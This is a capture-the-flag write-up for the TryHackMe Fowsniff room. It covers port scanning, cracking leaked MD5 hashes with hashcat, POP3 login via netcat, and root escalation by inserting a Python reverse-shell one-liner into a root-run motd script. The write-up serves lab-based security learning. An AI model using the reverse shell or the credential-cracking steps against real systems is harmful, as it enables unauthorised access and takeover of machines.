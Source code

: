 # [Fowsniff CTF](https://tryhackme.com/room/ctf)
> Darshan Patel

## Overview

| Tables | Description |
| ------ | ----------- |
| Challenge Name | Fowsniff CTF |
| Difficulty | Easy |
| Tags | port scanning, hashes, bruteforcing, pop3|

---
```bash
export IP=10.10.38.237
```

---

```bash
nmap -vvv -p -sC -sV -A -v -oN nmap/initial.nmap $IP
```


Nmap Scan: 
```
PORT      STATE    SERVICE     VERSION
22/tcp    open     ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 90:35:66:f4:c6:d2:95:12:1b:e8:cd:de:aa:4e:03:23 (RSA)
|   256 53:9d:23:67:34:cf:0a:d5:5a:9a:11:74:bd:fd:de:71 (ECDSA)
|_  256 a2:8f:db:ae:9e:3d:c9:e6:a9:ca:03:b1:d7:1b:66:83 (ED25519)
80/tcp    open     http        Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Fowsniff Corp - Delivering Solutions
110/tcp   open     pop3        Dovecot pop3d
|_pop3-capabilities: TOP USER CAPA RESP-CODES AUTH-RESP-CODE SASL(PLAIN) UIDL PIPELINING
143/tcp   open     imap        Dovecot imapd
1067/tcp  filtered instl_boots
2007/tcp  filtered dectalk
5988/tcp  filtered wbem-http
9535/tcp  filtered man
32781/tcp filtered unknown
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=9/18%OT=22%CT=1%CU=37471%PV=Y%DS=2%DC=T%G=Y%TM=5F64B36
OS:9%P=x86_64-pc-linux-gnu)SEQ(SP=EE%GCD=2%ISR=107%TI=Z%CI=RD%TS=A)SEQ(SP=E
OS:D%GCD=1%ISR=107%TI=Z%TS=8)SEQ(TI=Z%TS=B)OPS(O1=M508ST11NW6%O2=M508ST11NW
OS:6%O3=M508NNT11NW6%O4=M508ST11NW6%O5=M508ST11NW6%O6=M508ST11)WIN(W1=68DF%
OS:W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN(R=Y%DF=Y%T=40%W=6903%O=M508N
OS:NSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=
OS:Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=A
OS:R%O=%RD=0%Q=)T5(R=N)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%D
OS:F=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T7(R=N)U1(R=Y%DF=N%T=40%IPL=164%UN
OS:=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=N)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 5900/tcp)
HOP RTT       ADDRESS
1   151.34 ms 10.9.0.1
2   151.34 ms 10.10.68.237

```

We found a lot of ports opened now lets try to enumerate all of them one by one.
As you can see ssh is open so if we tend to exploit any username or password we can try to login through it.

Using Google, can you find any public information about them?

As you can see that they have something publicly available so I found this line on their website.

There was breach happened earlier on their systems and now all the users have changed their passwords.But I think there might be someone
who forgot to do this.
The attackers were also able to hijack our official @fowsniffcorp Twitter account. All of our official tweets have been deleted and the attackers may release sensitive information via this medium. We are working to resolve this at soon as possible.

See they have twitter account so I searched for their account and found something amazing.

```
FowSniffCorp Pwned!
@FowsniffCorp
·
Mar 10, 2018
lol gr8 security @FowsniffCorp
 - too bad I'm dumping all your passwords!
FowsniffCorp - Pastebin.com
Pastebin.com is the number one paste tool since 2002. Pastebin is a website where you can store text online for a set period of time.
pastebin.com
```

So I was able to get the hashes.

```
mauer@fowsniff:8a28a94a588a95b80163709ab4313aa4
mustikka@fowsniff:ae1644dac5b77c0cf51e0d26ad6d7e56
tegel@fowsniff:1dc352435fecca338acfd4be10984009
baksteen@fowsniff:19f5af754c31f1e2651edde9250d69bb
seina@fowsniff:90dc16d47114aa13671c697fd506cf26
stone@fowsniff:a92b8a29ef1183192e3d35187e0cfabd
mursten@fowsniff:0e9588cb62f4b6f27e33d449e2ba0b3b
parede@fowsniff:4d6e42f56e127803285a0a7649b5ab11
sciana@fowsniff:f7fd98d380735e859f8b2ffbbede5a7e

Fowsniff Corporation Passwords LEAKED!
FOWSNIFF CORP PASSWORD DUMP!
 
Here are their email passwords dumped from their databases.
They left their pop3 server WIDE OPEN, too!
MD5 is insecure, so you shouldn't have trouble cracking them but I was too lazy haha =P
 
l8r n00bz!
 
B1gN1nj4

mauer : ######
mustikka:#######
tegel:######
baksteen:######
seina:######
stone:Not found
mursten:#######
parede:######
sciana:######
```
So got the password for all the hashes except stone(You can crack the hashes at Crackstaion).

```
$ hashcat -m 0 hashes.txt ~/wordlists/passwords/rockyou.txt | tee cracked_passwords.txt
```

Using this I can log into the pop3 server via netcat

```
$ netcat $IP 110
```


And I use to gain access into the system:


![pop3_login](https://user-images.githubusercontent.com/87711310/207848072-b804a292-94c7-48df-b38e-b709fe594eb0.png)

Examining the emails, we learn that the initial threat actor gained access by SQL Injection and while that server has been moved offline, they have given their ssh credentials in plaintext and that they must change it.

![email_1](https://user-images.githubusercontent.com/87711310/207848049-cabb9bd6-e23b-4867-9129-6e2ca0262b70.png)

Seina seems to have changed hers however in the second email, she writes to a sick colleague of hers who has been sick and presumably not logged in recently...

![email_2](https://user-images.githubusercontent.com/87711310/207848060-d7eafbb3-3b04-4dca-b073-5505c335b367.png)

And now we have box access! I'm sure management is going to be chewed out again...

The task indicates we should search for a group owned file which is also executable.
It is important to note that this file is executed **_by root_** evidenced by `/etc/update-motd.d/`
```
$ find / -group users -type f -executable 2>/dev/null
> /opt/cube/cube.sh
```

We can put our reverse shell code into here (the task supplied one seems to be incorrectly copied?)
```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<<IP>>",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
I have attached the full file, which is correctly working!

Relogging into the machine... and we now have root access!

![flag](https://user-images.githubusercontent.com/87711310/207848064-cefe7cfe-ba4d-454b-9af6-33d88122a72f.png)
